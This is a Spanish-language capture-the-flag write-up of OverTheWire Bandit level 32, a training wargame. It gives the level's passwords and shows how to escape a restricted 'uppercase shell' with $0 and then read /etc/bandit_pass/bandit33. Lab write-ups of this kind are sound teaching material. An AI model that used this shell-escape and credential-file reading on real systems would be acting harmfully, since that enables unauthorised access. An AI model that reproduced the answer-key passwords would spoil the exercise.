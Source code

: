 ## Objetivo
After all this `git` stuff, it’s time for another escape. Good luck!
## Datos de Acceso al Nivel
- **Puerto:** 2220
##### Se usará el usuario "bandit32":
- **Usuario:** bandit32
- **Contraseña:** 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
##### Después de conseguir la contraseña:
- **Usuario:** bandit33
- **Contraseña descubierta:** tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
## Solución
```
WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: Permission denied
>> $0
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Jul 17 15:57 .
drwxr-xr-x 70 root     root      4096 Jul 17 15:58 ..
-rw-r--r--  1 root     root       220 Mar 31 08:41 .bash_logout
-rw-r--r--  1 root     root      3771 Mar 31 08:41 .bashrc
-rw-r--r--  1 root     root       807 Mar 31 08:41 .profile
-rwsr-x---  1 bandit33 bandit32 15136 Jul 17 15:57 uppershell
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
```

- ##### Cierre de sesión del usuario "bandit32".
```
$ exit
>> ^C
Connection to bandit.labs.overthewire.org closed.
```
## Notas Adicionales
## Referencias
- [OverTheWire](https://overthewire.org/wargames/bandit/bandit1.html)